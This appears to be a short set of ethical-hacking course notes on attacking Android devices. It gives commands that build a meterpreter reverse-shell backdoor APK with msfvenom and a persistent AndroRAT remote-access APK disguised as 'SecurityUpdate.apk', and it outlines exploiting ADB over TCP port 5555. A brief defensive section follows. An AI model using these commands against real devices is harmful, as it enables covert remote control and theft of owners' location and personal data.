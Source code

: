 # Hacking Mobile Platforms
> Mobile devices allow communication between users on radio frequencies, whether GSM, LTE, 5G, or Wi-Fi. They can be used to send multimedia content, email, and perform many more tasks using the Internet. Mobile security is becoming increasingly challenging with the emergence of complex attacks that use multiple attack vectors to compromise mobile devices. These security threats exploit critical data as well as financial information and other details of mobile users and may also damage the reputation of mobile networks and organizations.

<br>

- ` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk `

Exploit the Android Platform through ADB using PhoneSploit:
- Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to run several different commands on a device.
- Usually, developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server at TCP port 5555 on the device.

Hack an Android Device by Creating APK File using AndroRAT:
- AndroRAT is a tool designed to give control of an Android system to a remote user and to retrieve information from it. AndroRAT is a client/server application developed in Java Android for the client side and the Server is in Python. AndroRAT provides a fully persistent backdoor to the target device as the app starts automatically on device boot up, it also obtains the current location, sim card details, IP address and MAC address of the device.
- `python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`
  - --build: is used for building the APK
  - -i: specifies the local IP address (here, 10.10.1.13)
  - -p: specifies the port number (here, 4444)
  - -o: specifies the output APK file (here, SecurityUpdate.apk)
- `python3 androRAT.py --shell -i 0.0.0.0 -p 4444 `


https://www.sisik.eu/apk-tool

Secure Android Devices from Malicious Apps using Malwarebytes Security
- Malwarebytes is an antimalware mobile tool that provides protection against malware, ransomware, and other growing threats to Android devices. It blocks, detects, and removes adware and malware; conducts privacy audits for all apps; and ensures safer browsing.










